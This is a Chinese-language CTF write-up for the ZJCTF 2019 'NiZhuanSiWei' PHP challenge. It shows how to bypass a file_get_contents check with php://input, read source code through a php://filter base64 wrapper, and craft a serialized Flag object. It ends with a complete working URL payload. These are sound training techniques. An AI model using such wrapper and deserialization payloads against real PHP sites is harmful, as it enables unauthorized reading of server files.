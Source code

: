 # \[ZJCTF 2019]NiZhuanSiWei

## \[ZJCTF 2019]NiZhuanSiWei

## 考点

* 用php://input绕过file\_get\_contents的内容限制
* 文件包含配合伪协议读取文件
* PHP反序列化

## wp

![](../../.gitbook/assets/mjjndGScRFxy6RNpIYI8nl97RgL\_GzpPXU6iWIDcg90.png)

用`php://input`绕过`file_get_contents($text,'r')`的限制

用`php://filter/read=convert.base64-encode/resource=useless.php`读取文件

```php
<?php  
class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>
```

然后反序列化

```php
class Flag{
    public $file="flag.php";  
}  

$a = new Flag();
echo serialize($a);
```

payload:

```
?text=php://input&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}

welcome to the zjctf
```
